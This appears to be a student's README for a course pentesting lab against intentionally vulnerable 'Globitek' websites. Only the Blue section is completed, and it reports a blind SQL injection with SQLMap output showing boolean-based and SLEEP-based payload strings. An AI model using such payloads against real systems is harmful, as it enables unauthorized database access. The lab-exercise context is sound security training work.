

# Project 8 - Pentesting Live Targets

Time spent: **4** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: SQL Injection

Description: In the request https://104.198.208.81/blue/public/salesperson.php?id=1 the ID parameter is vulnerable to a time-based blind SQL injection. I used SQLMap to identify this vulnerability. Here's what SQLMap found:
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=9' AND 5478=5478 AND 'ldnf'='ldnf

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=9' AND (SELECT 3260 FROM (SELECT(SLEEP(5)))Evaj) AND 'gOzU'='gOzU
---
```
Time based injection is slow, but it allows me access to the data in the database. For example, here are some of the users and their salted and hashed passwords:




Vulnerability #2: __________________

Description:


## Green

Vulnerability #1: __________________

Description:


Vulnerability #2: __________________

Description:


## Red

Vulnerability #1: __________________

Description:


Vulnerability #2: __________________

Description:


## Notes

Describe any challenges encountered while doing the work
